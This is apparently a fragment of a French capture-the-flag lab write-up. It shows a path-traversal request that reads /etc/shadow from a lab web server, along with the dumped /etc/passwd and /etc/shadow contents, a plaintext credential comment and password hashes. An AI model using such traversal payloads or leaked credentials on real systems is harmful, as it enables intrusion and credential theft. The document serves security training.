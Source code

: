 ```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
```

> #falconfeast:rootpassword


### Récupération du contenu du fichier `/etc/shadow`

view-source:http://10.10.115.164/article?name=../../../../etc/shadow

```sh
root:$6$mFbzBSI/$c80cICObesNyF9XxbF6h6p6U2682MfG5gxJ5KtSLrGI8766/etwzBvppTuug6aLoltiSmeqdIaEUg6f/NLYDn0:18283:0:99999:7:::
daemon:*:17647:0:99999:7:::
bin:*:17647:0:99999:7:::
sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7:::
games:*:17647:0:99999:7:::
man:*:17647:0:99999:7:::
lp:*:17647:0:99999:7:::
mail:*:17647:0:99999:7:::
news:*:17647:0:99999:7:::
uucp:*:17647:0:99999:7:::
proxy:*:17647:0:99999:7:::
www-data:*:17647:0:99999:7:::
backup:*:17647:0:99999:7:::
list:*:17647:0:99999:7:::
irc:*:17647:0:99999:7:::
gnats:*:17647:0:99999:7:::
nobody:*:17647:0:99999:7:::
systemd-network:*:17647:0:99999:7:::
systemd-resolve:*:17647:0:99999:7:::
syslog:*:17647:0:99999:7:::
messagebus:*:17647:0:99999:7:::
_apt:*:17647:0:99999:7:::
lxd:*:18281:0:99999:7:::
uuidd:*:18281:0:99999:7:::
dnsmasq:*:18281:0:99999:7:::
landscape:*:18281:0:99999:7:::
pollinate:*:18281:0:99999:7:::
falconfeast:$6$dYJsdbeD$rlYGlx24kUUcSHTc0dMutxEesIAUA3d8nQeTt6FblVffELe3FxLE3gOID5nLxpHoycQ9mfSC.TNxLxet9BN5c/:18281:0:99999:7:::
sshd:*:18281:0:99999:7:::
mysql:!:18281:0:99999:7:::
```
